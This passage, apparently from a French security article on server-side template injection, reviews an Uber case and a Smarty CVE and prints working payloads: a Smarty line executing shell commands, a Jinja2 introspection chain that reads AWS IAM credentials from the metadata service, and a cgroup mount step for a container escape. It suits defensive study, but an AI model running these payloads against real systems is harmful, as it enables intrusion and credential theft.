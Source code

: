 ## Cas d'Études Réels et Impact Business

### Cas Uber (HackerOne Report #125980)

Un chercheur en sécurité a découvert une RCE complète sur `rider.uber.com` via une vulnérabilité SSTI dans Flask/Jinja2. L'exploitation suivait ce scénario :

1. **Découverte :** Changement du nom de profil vers `{{ '7'*7 }}`
    
2. **Confirmation :** Réception d'email avec "7777777" confirmant l'évaluation Jinja2
    
3. **Exploitation :** RCE via introspection d'objets Python
    

L'impact incluait la compromission complète du serveur et l'accès aux données utilisateurs.

### Template Escape dans Smarty (CVE-2021-26120)

Cette vulnérabilité permettait d'injecter du code PHP arbitraire dans les fichiers compilés via des bugs dans la fonction `{function}` :

```php
# Payload d'exploitation  
{function name="rce() { system($_GET['cmd']); } function safe"}
```

Le code injecté s'exécutait avec les privilèges du serveur web, permettant une compromission complète.

### Impact sur les Infrastructures Cloud

Les SSTI dans les environnements cloud présentent des risques amplifiés :

**Accès aux Metadata Services :**

```python
# Récupération des credentials AWS via SSTI
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['urllib.request'].urlopen('http://169.254.169.254/latest/meta-data/iam/security-credentials/').read()}}
```

**Container Escape :**

```bash
# Escape de conteneur Docker
mount -t cgroup -o rdma cgroup /tmp/cgroup && mkdir /tmp/cgroup/x
```

## Développements Futurs et Tendances

### Intelligence Artificielle et SSTI

L'émergence d'outils basés sur l'IA comme **WormGPT** génère automatiquement des centaines de payloads SSTI uniques pour contourner les signatures de détection. Cette automatisation rend la défense basée sur des patterns moins efficace.

### Template Engines Modernes
